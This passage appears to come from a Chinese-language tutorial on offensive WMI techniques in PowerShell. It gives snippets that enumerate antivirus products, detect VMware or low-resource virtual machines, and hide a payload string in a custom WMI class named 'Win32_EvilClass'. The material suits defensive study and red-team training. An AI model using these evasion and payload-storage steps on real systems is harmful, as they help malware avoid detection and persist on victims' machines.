 ```
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct

```

### 2、虚拟机检测

（1）判断TotalPhysicalMemory和NumberOfLogicalProcessors

```
$VMDetected = $False
$Arguments = @{
 Class = 'Win32_ComputerSystem'
 Filter = 'NumberOfLogicalProcessors < 2 AND TotalPhysicalMemory < 2147483648'
}
if (Get-WmiObject @Arguments) { 
$VMDetected = $True
"In vm"
 } 
 else{
 "Not in vm"
 }

```

（2）判断虚拟机进程

```
$VMwareDetected = $False
$VMAdapter = Get-WmiObject Win32_NetworkAdapter -Filter 'Manufacturer LIKE
"%VMware%" OR Name LIKE "%VMware%"'
$VMBios = Get-WmiObject Win32_BIOS -Filter 'SerialNumber LIKE "%VMware%"'
$VMToolsRunning = Get-WmiObject Win32_Process -Filter 'Name="vmtoolsd.exe"'
if ($VMAdapter -or $VMBios -or $VMToolsRunning) 
{ $VMwareDetected = $True 
"in vm"
} 
else
{
"not in vm"
}

```

### 3、存储payload

【管理员权限】

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,
$null)
$StaticClass.Name = 'Win32_EvilClass'
$StaticClass.Put()
$StaticClass.Properties.Add('EvilProperty' , "This is payload")
$StaticClass.Put() 

```
